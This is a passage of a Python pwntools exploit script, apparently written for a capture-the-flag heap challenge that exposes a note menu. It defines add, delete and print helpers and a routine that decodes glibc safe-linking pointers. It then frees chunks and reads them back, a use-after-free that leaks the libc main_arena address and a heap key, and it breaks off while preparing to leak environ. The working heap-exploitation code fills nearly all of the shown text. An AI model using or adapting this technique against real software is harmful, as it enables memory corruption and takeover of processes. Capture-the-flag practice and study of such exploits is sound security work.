 ```python
		data = data[:6]
	
	choice(2)
	p.sendlineafter(b'Input your index>> ', str(index).encode())
	p.sendafter(b'Input your data>> ', data)


def deleteNote(index):
	choice(3)
	p.sendlineafter(b'Input your index>> ', str(index).encode())
		

def printNote(index, convert=True):
	choice(4)
	p.sendlineafter(b'Input your index>> ', str(index).encode())
	output = p.recvline(keepends=False)
	return int.from_bytes(output, "little") if (convert) else output
	

def decryptSafeLinking(encryptedAddr):
	key = 0
	plain = 0

	for i in range(6):
		bits = max(64 - (12 * i), 0)
		plain = ((encryptedAddr ^ key) >> bits) << bits
		key = plain >> 12
	
	return plain


### Get LIBC main areana leak ###
loopCount = 9
for _ in range(loopCount):
	addNote(True, b'Smol')


for i in range(loopCount):
	deleteNote(i)


for i in range(loopCount):
	areana_leak = printNote(i)


# Note at index 7 should now point to the libc main areana
areana_leak = printNote(7)
libc.address += areana_leak - AREANA_TO_LIBC_OFFSET

addNote(False, b'Smol')
addNote(False, b'Smol')

deleteNote(FREE_INDEX - 1)
deleteNote(FREE_INDEX - 2)

# Get an encrypted pointer leak while we're here :)
heapLeak = printNote(FREE_INDEX - 2)
decHeapLeak = decryptSafeLinking(heapLeak)
key = heapLeak ^ decHeapLeak

######################
# We want to leak the environ value. HOWEVER, the add_note function will clear out the memory within the allocated area
```